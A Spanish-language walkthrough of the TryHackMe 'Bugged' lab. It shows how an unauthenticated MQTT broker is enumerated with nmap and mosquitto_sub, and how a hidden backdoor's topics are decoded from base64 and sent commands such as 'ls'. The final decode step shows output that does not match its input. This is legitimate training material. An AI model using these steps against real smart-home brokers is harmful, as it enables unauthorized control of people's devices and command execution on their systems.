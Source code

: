 # Bugged(MQTT,THM)
#Org-TryHackMe

#Status-Done 

#MQTT

#IoT
# Descripción

Bugged es un laboratorio de tryhackme que simula como los dispositivos inteligentes que tenemos en nuestras casas se comunican y como pueden ser vulnerables debido a malas configuraciones.

![Untitled](Bugged(MQTT,THM)/Untitled.png)

## ¿Qué es MQTT?

MQTT es un protocolo de mensajería que utiliza un enfoque de publicación/suscripción para la comunicación entre los dispositivos conectados. 

# Recon

Escaneando los puertos del equipo se puede observar que utiliza el protocolo MQTT. Podemos ver alguno de los tópicos y sus publicaciones, esto es debido a una mala configuración, ya que para subscribirse a los tópicos no se requiere de autenticación.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC 10.10.83.103 -p-   
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-08 19:44 EST
Nmap scan report for 10.10.83.103
Host is up (0.059s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE                  VERSION
1883/tcp open  mosquitto version 2.0.14
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/load/messages/sent/15min: 132.36
|     $SYS/broker/load/messages/sent/5min: 148.99
|     patio/lights: {"id":13450064615390845532,"color":"GREEN","status":"ON"}
|     $SYS/broker/load/sockets/15min: 0.78
|     $SYS/broker/bytes/received: 291554
|     $SYS/broker/load/bytes/received/15min: 4311.03
|     $SYS/broker/load/sockets/5min: 1.09
|     $SYS/broker/load/bytes/sent/15min: 3854.68
|     $SYS/broker/publish/bytes/received: 206700
|     $SYS/broker/load/connections/5min: 0.75
|     $SYS/broker/retained messages/count: 38
|     kitchen/toaster: {"id":4296689929067490304,"in_use":false,"temperature":148.23627,"toast_time":320}
|     $SYS/broker/load/publish/sent/1min: 88.81
|     $SYS/broker/publish/messages/sent: 1494
|     $SYS/broker/store/messages/count: 39
|     $SYS/broker/subscriptions/count: 6
|     $SYS/broker/publish/bytes/sent: 95737
|     livingroom/speaker: {"id":8399132638921082018,"gain":59}
|     $SYS/broker/store/messages/bytes: 330
|     $SYS/broker/messages/stored: 39
|     $SYS/broker/load/connections/15min: 0.65
|     $SYS/broker/load/connections/1min: 2.38
|     $SYS/broker/clients/total: 4
|     $SYS/broker/version: mosquitto version 2.0.14
|     $SYS/broker/messages/sent: 7628
|     storage/thermostat: {"id":2292674643183825823,"temperature":23.678448}
|     $SYS/broker/load/bytes/received/1min: 4361.09
|     $SYS/broker/load/bytes/received/5min: 4307.59
|     $SYS/broker/load/sockets/1min: 3.40
|     $SYS/broker/bytes/sent: 154007
|     $SYS/broker/load/bytes/sent/5min: 4853.43
|     $SYS/broker/messages/received: 6200
|     $SYS/broker/load/messages/sent/1min: 181.81
|     $SYS/broker/load/messages/received/1min: 93.30
|     $SYS/broker/load/publish/sent/5min: 57.11
|     $SYS/broker/load/publish/sent/15min: 41.32
|     $SYS/broker/load/messages/received/15min: 91.69
|     $SYS/broker/clients/connected: 3
|     $SYS/broker/clients/active: 3
|     $SYS/broker/load/bytes/sent/1min: 6206.88
|     $SYS/broker/load/messages/received/5min: 92.12
|_    $SYS/broker/uptime: 3993 seconds

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.30 seconds
```

Sabiendo que hay algunos tópicos que no requieren de authenticación, vamos a escuchar todos los tópicos que no requieran de ella.

```bash
mosquitto_sub -t '#' -h 10.10.83.103 -v
```

> -t ‘#’ (Sirve para escuchar todos los topicos, o un topico en concreto)
>  -h IP (Ip del MQTT)
>  -v (Verbose mode)

```bash
┌──(kali㉿kali)-[~]
└─$ mosquitto_sub -t '#' -h 10.10.83.103 -v
storage/thermostat {"id":14542060287344178663,"temperature":23.627169}
livingroom/speaker {"id":228475588187167133,"gain":62}
kitchen/toaster {"id":4354901113821836059,"in_use":false,"temperature":157.60037,"toast_time":199}
storage/thermostat {"id":5145269934709152454,"temperature":24.291834}
patio/lights {"id":7928715270120595881,"color":"PURPLE","status":"OFF"}
frontdeck/camera {"id":12101185314309546723,"yaxis":137.46451,"xaxis":-14.20517,"zoom":0.9130872,"movement":false}
livingroom/speaker {"id":7998105205519468684,"gain":44}
storage/thermostat {"id":17049630188281972557,"temperature":23.023586}
kitchen/toaster {"id":18236427340520294046,"in_use":false,"temperature":153.60626,"toast_time":342}
patio/lights {"id":7239207803758781648,"color":"PURPLE","status":"OFF"}
livingroom/speaker {"id":3459444945799854247,"gain":68}
storage/thermostat {"id":16132263354363376435,"temperature":23.96116}
patio/lights {"id":2520453853733614087,"color":"RED","status":"ON"}
frontdeck/camera {"id":5104873236420027513,"yaxis":177.43738,"xaxis":72.826355,"zoom":0.69228655,"movement":false}
storage/thermostat {"id":17031331406259833386,"temperature":23.835253}
kitchen/toaster {"id":4036233390755825463,"in_use":true,"temperature":154.69026,"toast_time":129}
livingroom/speaker {"id":13002264674736278265,"gain":74}
yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==
storage/thermostat {"id":13564564440425379963,"temperature":23.726637}
livingroom/speaker {"id":4605785484328167113,"gain":58}
patio/lights {"id":5540241046223153515,"color":"GREEN","status":"ON"}
kitchen/toaster {"id":5294056949280766076,"in_use":true,"temperature":149.89319,"toast_time":141}
storage/thermostat {"id":15428830024999814562,"temperature":24.151302}
frontdeck/camera {"id":18384723226709614276,"yaxis":-59.22648,"xaxis":54.74568,"zoom":2.0344522,"movement":false}
livingroom/speaker {"id":14221066022264406767,"gain":50}
patio/lights {"id":8353637170676195955,"color":"GREEN","status":"OFF"}
storage/thermostat {"id":2636633732245715773,"temperature":24.1134}
kitchen/toaster {"id":12419983373386450258,"in_use":true,"temperature":159.88445,"toast_time":347}
livingroom/speaker {"id":18398160408882539825,"gain":61}
storage/thermostat {"id":5411455599525937250,"temperature":23.778364}
patio/lights {"id":16399010197849104495,"color":"PURPLE","status":"OFF"}
frontdeck/camera {"id":13439560994363962262,"yaxis":100.28021,"xaxis":111.76721,"zoom":0.110681064,"movement":true}
kitchen/toaster {"id":12269415397181195181,"in_use":false,"temperature":158.81837,"toast_time":339}
livingroom/speaker {"id":15191329915333182993,"gain":52}
storage/thermostat {"id":10540214407375111361,"temperature":23.119976}
```

Aquí se puede observar todos los tópicos que se pueden escuchar sin autenticación. En este caso hay dispositivos para las luces del patio, el altavoz del salón, la tostadora de la cocina, etc. Pero hay uno que llama mucho la atención.

```bash
yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==

```

Es un mensaje en base64 el cual nos proporciona esta informacion

```bash
┌──(kali㉿kali)-[~]
└─$ echo 'eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==' |base64 -d
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```

Nos dice que hay un topico para subscribirse y otro para publicar. Por lo que nos vamos a subscribir al topico de las publicaciones *U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub*

```bash
┌──(kali㉿kali)-[~]
└─$ mosquitto_sub -t 'U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub' -h 10.10.83.103 -v
```

En este caso le estamos indicando que queremos subscribirnos/escuchar el canal donde se publica, por lo que vamos a publicar algo. Para publicar algo utilizaremos mosquitto_pub, añadiendo el parametro -m para publicar el mensaje que queramos

```bash
┌──(kali㉿kali)-[~]
└─$ mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -h 10.10.83.103 -m "W1C3"
```
![mqtt.gif](Bugged(MQTT,THM)/iot.gif)
De nuevo nos devuelve otro base64, el cual nos indica que el formato del mensaje esta mal y nos muestra como debemos publicar los mensajes

```bash
┌──(kali㉿kali)-[~]
└─$ echo 'SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=' |base64 -d
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
```

Por lo que vamos a adaptarnos al formato de mensaje.

```bash
┌──(kali㉿kali)-[~]
└─$ echo '{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}' |base64
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQo=
```

En este caso lo que he añadido es el id, que me devolvio el primer base64, y le estoy indicando que me ejecute un ls.

Esto nos devuelve este base64 proporcionandonos el listado de archivos
```bash
echo "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQo=" | base64 -d  
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}
```

![mqtt.gif](Bugged(MQTT,THM)/iot2.gif)
